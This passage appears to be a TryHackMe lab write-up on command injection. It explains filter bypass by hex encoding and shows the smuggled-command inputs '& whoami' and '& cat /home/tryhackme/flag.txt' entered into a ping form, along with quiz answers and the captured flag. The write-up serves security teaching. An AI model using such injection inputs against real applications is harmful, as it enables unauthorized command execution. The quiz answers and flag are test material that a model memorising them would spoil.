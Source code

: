 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/06e83dfe3791664ed0bb9bc9ffd3e581.png)

Bypassing Filters

Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application to bypass these filters. For example, an application may strip out quotation marks; we can instead use the hexadecimal value of this to achieve the same result.

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/fd59464e2884390ee1b8bb52b327d454.png)


What is the term for the process of "cleaning" user input that is provided to an application?
*sanitisation*

###  Practical: Command Injection (Deploy) 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/32b86b4183b33d87911340a9effc566a.png)

Test some payloads on the application hosted on the website visible in split-screen view to test for command injection. Refer to this [cheat sheet](https://github.com/payloadbox/command-injection-payload-list) if you are stuck or wish to explore some more complex payloads.

Find the contents of the flag located in /home/tryhackme/flag.txt. You can use a variety of payloads to achieve this – I recommend trying multiple.


> 
DiagnoseIT
Use this handy web application to test the availability of a device by entering it's IP address in the field below. For example, 127.0.0.1
Here is your command: & whoami
Output:
www-data 

What user is this application running as? *www-data*

> 
DiagnoseIT
Use this handy web application to test the availability of a device by entering it's IP address in the field below. For example, 127.0.0.1
Here is your command: & cat /home/tryhackme/flag.txt
Output:
THM{COMMAND_INJECTION_COMPLETE} 

What are the contents of the flag located in /home/tryhackme/flag.txt?
*THM{COMMAND_INJECTION_COMPLETE} *

### Conclusion 



Well done for making it to the end of this room. To recap, we’ve learned about the following elements of command injection:
